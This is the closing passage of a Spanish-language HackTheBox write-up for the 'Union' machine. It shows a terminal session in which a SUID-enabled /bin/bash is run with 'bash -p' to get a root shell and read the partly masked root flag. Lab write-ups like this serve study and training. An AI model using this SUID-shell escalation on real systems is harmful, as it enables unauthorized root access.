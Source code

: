 ```bash
uhc@union:/var/www/html$ ls -la /bin/bash-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
uhc@union:/var/www/html$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
288c2f6c65861bc7d***************
```

Hemos completado la máquina **Union** de HackTheBox!! Happy Hacking!!

<img src="/assets/HTB/Union/pwned.png">